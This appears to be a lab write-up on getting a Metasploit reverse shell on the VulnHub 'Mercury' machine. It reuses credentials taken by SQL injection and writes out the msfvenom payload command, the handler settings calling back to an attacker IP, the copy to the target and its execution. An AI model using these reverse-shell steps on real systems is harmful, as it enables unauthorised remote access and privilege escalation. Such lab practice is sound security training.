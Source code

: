 # metasploit
we will again use the machine 'mercury' from vulnhub.  
since we were able to get access to the login credentials using sql injection, why not try to gain reverse shell/meterpreter access into the machine?  
For this lets use msfvenom to generate a payload and send it the the target machine which we will then execute in the said target machine to help us gain reverse shell access into the machine.  
- msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.56.103 LPORT=4444 -f elf > /tmp/mesc_x64.elf

Then inside msfconsole lets set the payload, target, listner and listening port by executing the below commands.  
- set PAYLOAD linux/x64/meterpreter/reverse_tcp
- set LHOST 192.168.56.103
- set LPORT 4444
- set ExitOnSession false
- exploit

Then we copy the payload 'mesc_x64.elf' from our kali to the target machine.  
- scp -P 22 /tmp/mesc_x64.elf linuxmaster@192.168.56.102:/tmp/mesc_x64.elf

And since we have remote access using ssh, lets make the payload 'mesc_x64.elf' an executable inside the target machine and run/execute it.
- chmod +x /tmp/mesc_x64.elf
- /tmp/mesc_x64.elf

Voilà! we have reverse shell of the target in our kali(attacker), from here we can remotely access files, perform privelage escalation and get root access.  
<img width="1920" height="903" alt="Screenshot_2025-10-07_06_43_22" src="https://github.com/user-attachments/assets/9483f667-4bbd-4575-a110-9d7c3d65af87" />
<img width="1920" height="903" alt="Screenshot_2025-10-07_06_43_47" src="https://github.com/user-attachments/assets/7475d610-9e0b-46f2-9271-256822f1df62" />
<img width="1920" height="903" alt="Screenshot_2025-10-07_06_45_04" src="https://github.com/user-attachments/assets/6b1fe905-c9ed-4c80-a2a0-19522d48305b" />

